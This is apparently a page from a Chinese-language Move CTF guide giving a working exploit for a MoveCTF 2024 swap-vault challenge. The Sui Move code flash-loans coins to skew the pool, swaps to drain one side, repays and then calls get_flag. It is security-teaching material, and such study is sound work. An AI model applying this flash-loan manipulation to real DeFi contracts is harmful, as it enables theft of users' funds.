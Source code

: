 ## [利用](#利用)

```

    
    
    /// Module: exp
    module exp::exp {
      use sui::tx_context::TxContext;
      use sui::balance::{Self, Balance};
      use sui::coin::{Self, Coin};
      use swap::vault::{Self, Vault,swap_a_to_b};
      public entry fun exp1<A,B>(vault: &mut Vault<A,B>, coina:Coin<A>, ctx: &mut TxContext) {
        //in vault, A:100,B:100
        //flashloan 99 coina
        let (coin_a, coin_b, receipt) = vault::flash(vault, 99, false, ctx);
        //in vault, A:1,B:100
        let mut input_balance= coin::into_balance(coina);//10
        let coinb = swap_a_to_b(vault,coin::from_balance(balance::split(&mut input_balance,1),ctx), ctx);
        transfer::public_transfer(coinb, tx_context::sender(ctx));
        let change = coin::from_balance(input_balance, ctx);
        transfer::public_transfer(change, tx_context::sender(ctx));
        //in vault, A:2,B:0
    
        //repay 99 coina
        vault::repay_flash(vault, coin_a, coin_b, receipt);
        //in vault, A:101,B:0
        // flashloan all
        let (coin_a, coin_b, receipt) = vault::flash(vault, 101, false, ctx);
        vault::get_flag(vault, ctx);
        vault::repay_flash(vault, coin_a, coin_b, receipt);
      }
    }
    
```

## [参考资料](#参考资料)

  * [MoveCTF 2024 Writeup](https://ambergroup.medium.com/movectf-2024-writeup-f74784e020c4)

[ ](../MoveCTF2024/index.html "Previous chapter") [ ](../MoveCTF2024/EasyGame.html "Next chapter")

[ ](../MoveCTF2024/index.html "Previous chapter") [ ](../MoveCTF2024/EasyGame.html "Next chapter")

# EasyGame.html
# 《From 0 to Hero : Move CTF 指北》

[ ](../print.html "Print this book")
